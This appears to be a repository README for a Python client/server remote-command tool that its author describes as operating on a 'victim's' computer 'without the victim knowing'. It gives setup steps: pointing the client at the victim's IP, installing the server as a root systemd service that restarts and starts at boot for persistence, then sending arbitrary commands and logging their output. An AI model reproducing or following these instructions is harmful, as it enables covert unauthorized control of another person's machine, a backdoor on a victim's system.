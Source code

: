 This repository is a cyber security project of mine, it is not very comprehensive yet it is effective, it allows you to do various operations without the victim knowing. You can create or remove directories, install applications and browse the victim's computer. Only drawback is you have to be in the same wifi with the victim.
You can set this up by following the steps I provided.

**Requirements**
To run this project, you will need the following:

Python 3.x installed on both the server and client machines.
SQLite3 (included with Python).
Basic knowledge of using a terminal or command line interface.

**Files Included**
client.py: The client script to send commands to the server.
server.py: The server script to receive and execute commands.
createDb.py: A script to create the SQLite database and table.
view_Db.py: A script to view the contents of the database.
command_outputs.db: The SQLite database where command outputs are stored. (you should run the createDb.py on the terminal for this to show up) -> Windows: python createDb.py Linux/Mac: python3 createDb.py

**Step 1: Edit client.py**
In the client.py file, update the IP address to the IP address of the server machine (victim's machine): client_socket.connect(('192.168.169.117', 12345)) #Example

**Step 2: Run createDb.py**
Run the create_db.py script on the client machine to create the SQLite database and table: python3 create_db.py

**Step 3.1: Setup the Server**
On the server machine, create a systemd service to ensure the server script runs on boot: sudo nano /etc/systemd/system/server.service

**3.2: Add the following content to the file**

[Unit]
Description=Start Server Script
After=network.target

[Service]
ExecStart=/usr/bin/python3 /path/to/server.py
WorkingDirectory=/path/to/
StandardOutput=inherit
StandardError=inherit
Restart=always
User=root

[Install]
WantedBy=multi-user.target

Replace /path/to/ with the actual path where server.py is located.

**3.3: Reload the systemd daemon and start the service:**
sudo systemctl daemon-reload
sudo systemctl start server.service
sudo systemctl enable server.service

**Step 4: Running the Client**
Run the command 'python3 client.py' on your terminal while you are on your projects directory -> .../Desktop/client.py
Enter the command you want to execute on the server machine. The output will be displayed and stored in the SQLite database.

**Step 5: Reviewing the Database**
To view the contents of the database, run the viewDb.py script on the client machine: python3 view_db.py
This will print the stored command outputs.

That's all, you can find more commands for your needs in the text file I added named 'serverServiceCommand.txt' 
